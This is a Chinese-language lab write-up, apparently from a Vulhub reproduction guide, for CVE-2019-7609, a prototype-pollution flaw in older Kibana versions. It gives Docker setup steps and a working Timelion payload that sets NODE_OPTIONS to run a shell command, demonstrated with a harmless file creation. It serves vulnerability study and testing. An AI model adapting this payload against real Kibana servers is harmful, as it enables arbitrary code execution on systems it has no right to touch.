


Kibana 原型链污染导致任意代码执行漏洞 CVE-2019-7609¶
漏洞描述¶
Kibana 为 Elassticsearch 设计的一款开源的视图工具。其5.6.15和6.6.1之前的版本中存在一处原型链污染漏洞，利用这个漏洞我们可以在目标服务器上执行任意JavaScript代码。
参考链接：
- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://slides.com/securitymb/prototype-pollution-in-kibana/#/4
环境搭建¶
Vulhub启动环境前，需要先在Docker主机上执行如下命令，修改vm.max_map_count配置为262144：
sysctl -w vm.max_map_count=262144
之后，执行如下命令启动Kibana 6.5.4和Elasticsearch 6.8.6：
docker-compose up -d
环境启动后，访问http://your-ip:5601即可看到Kibana页面。
漏洞复现¶
原型链污染发生在“Timelion”页面，我们填入如下Payload：
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

成功后，再访问“Canvas”页面触发命令/bin/touch /tmp/success，可见/tmp/success已成功创建：
